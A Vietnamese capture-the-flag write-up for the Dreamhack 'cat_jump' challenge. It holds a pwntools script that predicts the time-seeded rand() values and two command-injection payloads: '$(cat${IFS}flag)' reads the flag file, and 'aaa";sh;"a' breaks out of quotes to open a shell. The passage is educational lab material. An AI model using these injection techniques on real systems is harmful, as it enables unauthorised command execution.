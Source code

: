     snprintf(cmd, sizeof(cmd), cmd_fmt, cat_name);
    system(cmd);

    printf("goodjob! ");
    system("cat /tmp/cat_db");
}

int main(void) {
    Init();
    PrintBanner();
    StartGame();

    return 0;
}

```

đầu tiên obstacle dc gán ngẫu nhiên
nó kêu ta nhảy ( h ,l ) , nếu capnip != 0 thì giảm catnip -1 và tăng jump lên 1 ( goal là 37 )

- nếu input là h hoặc l mà obstacle ( giá trị ngẫu nhiên ) khác với 0 và 1 thì nhảy thành công
- nếu không thì bị mắc kẹt
- khởi tạo biến p = (double)rand() / RAND_MAX
nếu p < 0.1 -> catnip = 3 và quay về kêu nhập tiếp =)))

**Đối với phần lệnh injeciton, hãy thay thế chuỗi nhập echo để có thể đọc được cờ. Sự cố Tệp nhị phân không cho phép khoảng trắng trong phần đó, vì vậy `${IFS}`hãy cố gắng tránh nó bằng cách sử dụng `${IFS}`

```
from pwn import *
from ctypes import CDLL
from ctypes.util import find_library

p = process("./cat_jump")
#p = remote("host3.dreamhack.games", 22210)

libc = CDLL(find_library('c'))
libc.srand(libc.time(0x0))

for i in range(37):
    obstacle = libc.rand() % 2
    print("i : "+str(i)+", obstacle : "+str(obstacle))
    if obstacle==0:
        p.sendlineafter("jump='j': ", "l")
    else:
        p.sendlineafter("jump='j': ", "h")
    print(p.recvline())
    libc.rand() # for catnip

p.sendlineafter(b':',b'$(cat${IFS}flag)')

p.interactive()
```

hoặc cũng có thể như này : 

```cmd = b'aaa";sh;"a'```


----------------

21 . iofile_vtable
------------



source đề cho :  
```